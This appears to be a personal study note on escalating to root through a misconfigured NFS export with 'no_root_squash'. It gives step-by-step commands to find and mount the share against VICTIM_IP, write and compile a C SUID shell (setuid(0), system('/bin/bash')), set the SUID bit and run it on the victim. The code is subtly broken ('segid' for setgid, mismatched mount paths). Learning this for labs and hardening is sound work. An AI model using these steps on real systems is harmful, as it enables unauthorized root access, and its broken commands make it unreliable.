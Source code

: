 The `NFS Root Squashing` it's a security mechanism in the `NFS protocol (Network file system)` in order to prevent that a user with root access on the client `NFS` uses them on the `NFS` server to escalate on it.


When the `root squashing` is not well configured or disabled then a user with `root` access on a client `NFS` can escalate and access to privileged files into the `server NFS`.


# Root squashing identification

To understand if our host has the root squashing configured we can use:
```bash
cat /etc/exports
```
- ![[Pasted image 20250118162401.png]]

We can see that `/tmp` has `no_root_squash`:
- this means that the folder is sharable and can be mounted


So we can mount the folder `/tmp`

# Mounting the folder
On the attacker machine we can use:
```bash
showmount -e VICTIM_IP
```
- ![[Pasted image 20250118162543.png]]

So at this point on the attacker we mount it on our host:
```bash
mkdir /tmp/mountme

mount -o rw,vers=2 VICTIM_IP:/tmp /tmp/mount
```
- ![[Pasted image 20250118162650.png]]


> NOTE: WE MUST BE ROOT ON THE ATTACKER MACHINE
# Malicious file creation
Now we create a malicious file:
```bash
echo 'int main() { segid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/shell.c
```


We created a file, we can see it using:
```bash 
cat /tmp/mountme/shell.c
```
- ![[Pasted image 20250118162912.png]]



Now we need to compile it:
```bash
gcc /tmp/mountme/shell.c -o /tmp/mountme/shell
```


We give the execution permission (`SUID`) to it:
```bash
chmod +s /tmp/mountme/shell
```
- this gives the possibility to run the file as root with `+s`
- THIS IS THE IMPORTANT PART


# Executing on victim
Now we go on the victim host and we execute the file:
```bash
cd /tmp

./shell
```
- ![[Pasted image 20250118163227.png]]


<mark style="background: #BBFABBA6;">We gain the root shell!</mark>


# When it can be done
1. When we have the `not_root_squashing`
	1. This because in that case everything we do remotely on the folder is done as `root` (BUT ONLY IF WE ARE ROOT ON THE ATTACKER MACHINE)
	2. ![[Pasted image 20250118163453.png]]
		1. The file is owned by `root`
	3. This because `NFS` doesn't convert the `root` user into a normal one with this configuration
2. When the attacker can mount the shared folder

